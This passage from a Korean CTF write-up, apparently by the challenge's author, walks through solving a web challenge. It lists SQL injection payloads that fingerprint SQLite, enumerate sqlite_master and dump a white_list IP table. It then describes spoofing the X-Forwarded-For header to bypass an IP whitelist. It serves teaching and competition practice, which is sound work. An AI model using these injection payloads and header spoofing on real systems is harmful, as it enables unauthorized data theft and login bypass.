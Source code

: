사실 저희는 이미 데이터베이스에 한번 공격을 했던 이력이 있습니다. DB에 공격이 가능한 것을 알고 있으니 이를 통해 DB를 탈탈 털어보는건 어떨까요?

## #4. 본격 DB털이

DB를 털기위한 공격은 `/api/bot_check` 페이지에 계속 다양한 쿼리를 날려보면서 진행할 수 있습니다.

```
hi" or 1 -- 

hi" union select "hacked
```

이것저것 하다보면 아무런 필터링 없이 위와 같은 쿼리들이 동작함을 알 수 있습니다. 아래와 같이 버전을 출력해보며 DB를 특정할 수도 있습니다.

```
hi" union select version() -- 오류발생

hi" union select @@version -- 오류발생

hi" union select sqlite_version() -- 정상적으로 출력됨
```

위 결과를 통해 sqlite DB를 사용함을 알 수 있고, sqlite 문법에 맞게 페이로드를 작성해나가면 됩니다.

```
hi" union select tbl_name from sqlite_master --

hi" union select tbl_name from sqlite_master limit 3,1 --

hi" union select sql from sqlite_master where name="white_list

hi" union select ip from white_list --
```

주요한 쿼리들은 위와 같습니다.  존재하는 table을 찾다보면 `white_list` 라는 테이블이 있는 것과, `ip` 컬럼이 존재함을 알 수 있습니다. 최종적으로 화이트리스트 테이블을 출력해보면 아래와 같이 결과가 잘 나옵니다.

![stophacking-11](./resource/stophacking-11.PNG)

whilte_list 조회 결과

~~(내 생일)~~

## #5. 마무리

white_list에 존재하는 IP를 얻었으니, 로그인 요청 시 `X-Forwarded-For` 헤더를 통해 클라이언트 IP를 위장하면 정상적으로 로그인이 되고, 플래그를 얻을 수 있습니다.

SQL에 필터링도 없고, 경험이 있다면 XFF 헤더도 알 것이라고 생각했고, 데이터베이스라는 단어를 직접적으로 사용하면서 각종 문구들을 제작했기 때문에 EASY 난이도를 부여했었습니다. 하지만 풀이 과정을 전혀 모르고 접근하는 참가자의 관점에서 생각하는 부분이 미흡했던 것 같습니다.

다음에는 더 재미있고 게싱스러움을 쪽 빼고 돌아오겠습니다! 열심히 풀어주셔서 감사해요!! 😉
